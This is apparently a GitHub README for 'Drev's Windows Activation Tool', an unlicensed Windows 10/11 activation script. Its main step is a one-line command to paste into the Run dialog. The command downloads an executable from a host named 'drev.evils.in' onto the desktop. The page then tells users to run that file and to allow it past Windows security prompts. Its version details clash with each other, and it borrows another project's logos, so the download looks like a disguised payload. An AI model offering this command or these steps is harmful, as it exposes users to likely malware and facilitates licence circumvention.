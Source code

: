 <p align="center"><img src="https://drev.uk.to/assets/images/image01.jpg" alt="Drev's Logo"></p>

<h1 align="center">Drev's Windows Activation Tool (DWAT)</h1>

<p align="center">The best and updated Windows activation tool/script for Windows 10 and 11 by DrevilYT.</p>
<hr>

## Download / How to use it?

### Method 1 - Windows Run Installer (Recommended)

-   Right-click on the Windows start menu and select Run (or press Win key + R).
-   Copy-paste the below code and press enter
    ```
    cmd.exe /c cd %userprofile%\desktop & curl -o DWAT.exe "https://drev.evils.in/ActivationScript/v3.2/DWAT.exe" & echo. & echo. & echo Drev's Activation Script should be on your desktop now. & title gay hehe & pause
    ```
-   The script should be on your desktop now. Run it and select your options.
-   That's all.

### Method 2 - Traditional

-   Download the file from the [Latest Release.](https://github.com/DrevilYT/ActivationScript/releases/latest)
-   Run the file named DWAT.exe.
-   Select Yes or Allow if Windows tries to prevent you from running it.
-   You will see the activation options. Select your option.
-   That's all.

</br>

```
Latest Version: 2.0
Release date: 22-Feb-2024
```

### Homepage - [https://drev.uk.to/](https://drev.uk.to/)
</br>

<a href="https://drev.uk.to/discord/redirect.html">
  <img src="https://massgrave.dev/images/logo_discord.png" alt="Chat with us" />
</a>
<a href="https://twitter.com/DrevilYoutube">
  <img src="https://massgrave.dev/images/logo_x.png" alt="Follow on 𝕏/Twitter" />
</a>

---

<p align="center">Made by Drevil</p>
<p align="center">Old Repo: https://github.com/DrevilYT/UpgradeScript</p>
